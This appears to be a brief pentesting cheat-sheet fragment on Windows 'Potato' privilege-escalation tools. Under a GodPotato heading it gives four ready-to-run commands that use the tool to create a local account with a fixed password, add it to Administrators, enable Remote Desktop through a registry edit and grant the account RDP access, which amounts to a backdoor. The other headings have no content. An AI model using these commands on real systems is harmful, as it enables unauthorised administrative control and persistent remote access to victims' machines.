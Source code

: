 # Decoder.cloud

# Juicy Potato

# Rotten Potato

# GodPotato
Check the .NET version before to install the correct one:
```
.\GodPotato-NET4.exe -cmd "net user hajiahmad P@ssw0rd /add"
.\GodPotato-NET4.exe -cmd "net localgroup administrators hajiahmad /add"
.\GodPotato-NET4.exe -cmd "reg add 'HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 0 /f"
.\GodPotato-NET4.exe -cmd "NET LOCALGROUP \"Remote Desktop Users\" hajiahmad /ADD"
```
